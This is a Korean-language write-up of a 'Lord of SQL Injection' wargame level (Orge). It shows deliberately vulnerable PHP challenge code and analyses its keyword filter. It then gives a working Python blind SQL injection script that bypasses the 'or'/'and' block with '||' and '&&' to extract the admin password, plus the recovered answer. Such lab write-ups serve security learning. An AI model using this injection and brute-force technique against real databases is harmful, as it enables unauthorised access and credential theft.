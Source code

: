 # Lord of SQL Injection No.7 - Orge
## 문제 출제 의도
1. 'and', 'or' 없이 Blind SQL Injection의 가능 여부 확인.
## 소스 코드
~~~
<?php 
    include "./config.php"; 
    login_chk(); 
    dbconnect(); 
    if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
    if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
    $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
    echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
    $_GET[pw] = addslashes($_GET[pw]); 
    $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
    $result = @mysql_fetch_array(mysql_query($query)); 
    if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
    highlight_file(__FILE__); 
?>
~~~
## 분석 결론
+ 금지 문자, 문자열
    - GET방식으로 입력받은 pw값에 prob _ . () 중 하나라도 있다면 "No Hack ~_~"이 출력되고 문제 풀이에 실패한다.
    - GET방식으로 받은 pw값에 "or", "and"중 하나라도 있다면 "HeHe"가 출력되고 문제풀이에 실패한다.
+ 풀이 성공 조건
    - 입력한 pw와 데이터 베이스에서 받아 온 실제 pw가 같아야 한다.
## 문제 해결
1. Blind SQL Injection
    - 다음과 유사한 코드로 pw 값을 알 수 있다.
    ~~~
    import urllib.request
    from urllib.parse import quote
    key = ""
    for i in range(1, 9):
        for j in range(48, 127):
            url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
            data="' || id='admin' && substr(pw,1,{})='{}'#".format(str(i), key + chr(j))
            print(data)

            data = quote(data)
            re = urllib.request.Request(url + data)
            re.add_header("User-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.75 Safari/537.36") 
            re.add_header("Cookie", "PHPSESSID=uavhq5il3tafpfo9kr7uiqusu4")

            res = urllib.request.urlopen(re)

            if str(res.read()).find("Hello admin") != -1:
                key += chr(j).lower()
                print(key)
                break
    print(key)
    ~~~
    - 이는 "6c864dec" 출력한다.
    - "6c864dec"을 GET방식으로 pw에 입력하면 문제 풀이에 성공한다.